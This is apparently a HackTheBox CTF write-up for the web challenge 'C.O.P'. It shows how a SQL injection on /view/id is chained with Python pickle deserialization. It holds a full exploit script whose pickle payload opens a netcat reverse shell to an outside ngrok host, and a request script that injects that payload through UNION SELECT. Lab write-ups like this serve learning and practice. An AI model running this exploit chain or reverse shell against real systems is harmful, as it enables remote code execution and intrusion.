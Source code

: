 ```yaml
---
title: "C.O.P"
date: 2024-05-24 21:12:38 +0700
categories: [hackthebox]
tags: [hackthebox, web, challenge]
authors: [toan]
toc: true
---
```

## introduction
The C.O.P (Cult of Pickles) have started up a new web store to sell their merch. We believe that the funds are being used to carry out illicit pickle-based propaganda operations! Investigate the site and try and find a way into their operation!
## Recons
when you checking the code,  you will see that it has an SQLI vuln at `/view/id`, but the DB dont have sensitive or import data. `app.py` uses `pickle` package,a module for serializing and deserializing data. [exploiting-python-pickle](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
![image.png](https://i.postimg.cc/ryrnTpPs/image.png)

```python
## expl0.py
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('nc 0.tcp.ap.ngrok.io 13889 -e /bin/sh')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

```python
## expl1.py
import requests
## payload is output from expl0.py
payload = "gASVQAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCVuYyAwLnRjcC5hcC5uZ3Jvay5pbyAxMzg4OSAtZSAvYmluL3NolIWUUpQu"
url = f'http://94.237.54.176:32530/view/\' UNION SELECT \'{payload}'
requests.get(f'http://94.237.54.176:32530/view/\' UNION SELECT \'{payload}')
```
![image.png](https://i.postimg.cc/3RbPcbNq/image.png)

Giải thích: url trên tương ứng với câu query `SELECT data FROM products WHERE id='' UNION SELECT '<payload>'`, pickle data được app.py deserialize, còn tại sao nó hoạt động thì đọc thêm trong blog phân tích lỗi này đã để ở trên. Tóm lại bài là kết hợp SQLI và pickle's vuln.